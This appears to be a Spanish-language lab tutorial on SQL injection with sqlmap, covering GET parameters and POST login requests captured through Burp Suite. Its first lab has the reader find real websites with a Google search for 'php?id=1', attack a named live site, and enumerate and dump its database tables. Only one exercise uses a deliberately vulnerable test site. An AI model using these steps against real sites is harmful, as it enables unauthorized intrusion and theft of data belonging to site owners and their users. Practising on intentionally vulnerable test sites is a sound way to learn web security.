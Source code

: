 ## LABORATORIO 1 (INYECCION VIA SQLMAP CON METODO GET)

- Abrimos el navegador y vamos a Google.com
- Buscamos **php?id=1** y elegimos alguno de los resultados

EJEMPLO: <https://www.burobd.org/network-and-linkages.php?id=8>

- Y para saber si el sitio es vulnerable al final de la URL agregamos ‘
- Si es vulnerable nos debe mandar un error relacionado a “Error SQL Syntax”
![MENSAJE DE ERROR RECIBIDO](../assets/image66.png)
- Si es así copiamos el enlace original de la página y en la terminal ejecutamos:  
**_sqlmap -u &lt;URL&gt; --dbs_**
- Al final del análisis se nos mostraran las BD disponibles, en nuestro ejemplo nos interesa burobd_bd_2025 por lo que ejecutamos:  
**_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; --tables_**
- Obtenidas las tablas ahora queremos mostrar el contenido de una de ellas:  
**_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; -T &lt;tableName&gt; --columns_**
- Y ahora volcaremos estas columnas que elegiremos a nuestra maquina  
**_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; -T &lt;tableName&gt; -C &lt;col1,col2,etc&gt; --dump_**
- Copiamos la dirección donde se nos guardó el volcado y en otra terminal lo abrimos con leafpad  
**_leafpad &lt;UBICACION&gt;_**
- Veremos los datos obtenidos de la tabla en la base de datos

### SEGUNDO SITIO DE PRUEBA

- Vamos a ir a un sitio web intencionalmente vulnerable  
**_testphp.vulnweb.com/index.php_**
- Navegamos un poco en la web y copiamos una de sus URL
- Y en la terminal podemos hacer lo mismo que en la PRACTICA 1

## LABORATORIO 2 (INYECCION VIA SQLMAP CON METODO POST)

- Abrimos Burp Suite, seleccionamos un proyecto temporal, lo iniciamos y en Proxy>Intercept>Intercept On
- Y ahora redirigiremos el tráfico configurando nuestro PROXY en el navegador>Ajustes/Preferencias>Proxy>Settings>Manual proxy
    - HTTP Proxy: 127.0.0.1
    - Port: 8080
    - HTTPS Proxy:127.0.0.1
    - Port: 8080
- Abrimos en Burp los Proxy Settings>Export CA Certificate>Certificate in DER format
- Guardamos el documento en el escritorio con la extensión .der
- Abrimos el navegador>Ajustes>Certificates>View>Authorities>import
- Seleccionamos nuestro documento antes guardado y se habrá importado el certificado
- Y ahora todo el tráfico ira al servidor proxy antes que llegue a internet
- Nos vamos a una página vulnerable o que use POST(Login)
- Tratamos de logearnos con datos aleatorios
- Abrimos Burp Suite y nos vamos a HTTP History
- Buscamos el host al que entramos antes con POST, seleccionamos y en la parte inferior tendremos más información que seleccionaremos completamente, clic derecho y Copy To File
- Guardaremos el texto como sqli.txt y abriremos la terminal
- Ejecutamos **_sqlmap -r &lt;ubicacionDeNuestroTxt&gt;_**
- Comenzaremos a buscar vulnerabilidades como en la PRACTICA 1 y 2 para tratar de obtener la BD

EXTRAS (Pruebas a otras Paginas)
![RESULTADO DE LA PRUEBA A UNA PAGINA VULNERABLE](../assets/image67.png)

![OBTENCION DE DATOS DE LA PAGINA VULNERABLE](../assets/image68.png)
